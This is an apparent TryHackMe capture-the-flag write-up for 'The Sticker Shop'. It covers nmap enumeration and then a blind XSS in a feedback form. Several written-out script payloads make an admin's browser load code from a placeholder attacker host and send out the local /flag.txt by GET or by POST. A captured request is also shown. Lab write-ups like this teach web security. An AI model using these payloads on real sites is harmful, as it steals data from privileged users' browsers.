




# 📝 Writeup – The Sticker Shop (TryHackMe)

---

## TL;DR (so you don’t have to scroll)
Found a blind XSS in the feedback form. Pushed a tiny JS payload that runs in the admin’s browser, reads `/flag.txt` (local-only), and exfiltrates it back to my webserver. Decode the URI and boom — flag. Easy, obnoxious, effective.

---

## ENUMERATION
As always: quick port sweep first.

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found open ports: `22`, `8080`. Move to a focused scan:

```bash
nmap -p 22,8080 -sC -sV -vv -oN scan.nmap <IP>
```



Website looked normal. Checked `/flag.txt` (obligatory), but of course it’s not public. HTML source didn’t scream “here’s a vuln” — but forms are sneaky. Always check feedback forms.

---

## PORT 8080 — BLIND XSS

The feedback form probably stores content and later renders it in an admin’s browser. That smells like **blind XSS**: payload runs in a different user’s browser (usually admin) and you only see the result if you have an out-of-band listener.

Idea: make the admin’s browser fetch something only they can access (like `http://127.0.0.1:8080/flag.txt`) and forward it to our server.

Spin up a tiny HTTP server to catch exfil requests:

```bash
# on your attacker machine
python3 -m http.server 80
# or use any other listener you want
```

First, test that blind XSS works by injecting a script tag that loads an external script:

```html
'"><script src="http://<ATTACK_IP>/"></script>
```

If your server gets a hit, the script loaded in admin’s browser — bingo, blind XSS. Screenshot:


To confirm where the payload executes (useful debug), send window.location back:

```html
'"><script>
fetch("http://<ATTACK_IP>/" + window.location)
</script>
```

If that triggers a 404 on your server with the location appended, you’ve confirmed code executes in the admin’s browser (screenshot: ).

---

## THE REAL PAYLOAD — GET THE FLAG

This payload runs in the admin's context, fetches the local `/flag.txt`, and forwards its contents to your server (URI-encoded so it survives URLs).

```html
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(response => response.text())
  .then(data => {
    fetch("http://<ATTACK_IP>/" + encodeURIComponent(data));
  });
</script>
```

Paste that into the feedback form and submit. Wait for your server to receive a GET with the encoded flag. You’ll see something like:

```
GET /FLAG%7Bthis_is_my_encoded_flag%7D HTTP/1.1
```

Screenshot: 

Then decode it (any URL decoder — browser devtools, `python -c "import urllib.parse; print(urllib.parse.unquote('FLAG%7B...%7D'))"`, whatever). Ta-da — flag.

---

## WHY THIS WORKS (short & chill)

* The site stores our input then renders it in a privileged user’s browser (admin).
* XSS executes in admin’s origin — the admin can access `127.0.0.1:8080/flag.txt` that we cannot.
* By making admin fetch `/flag.txt` and forward it to our listener, we exfiltrate a local-only file.
* CBC? No — this is just classic blind XSS and same-origin privilege abuse. Simple but effective when the app trusts stored input.

---

## Notes / gotchas

* Use `encodeURIComponent()` so special chars in the flag don’t break the URL.
* If you want prettier exfil: base64 the response before sending, or POST it to reduce URL-length issues. Example (POST version):

```html
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(d => fetch("http://<ATTACK_IP>/catch", { method: "POST", body: d }));
</script>
```

* Cookie flags, CSP, and modern security headers can block this. When they don’t, you win.

---

## Ethics & disclaimer

Don’t run this on systems you don’t own or have permission to test. This writeup is for learning and labs only. Don’t be that idiot who ruins someone’s server for fun.

---
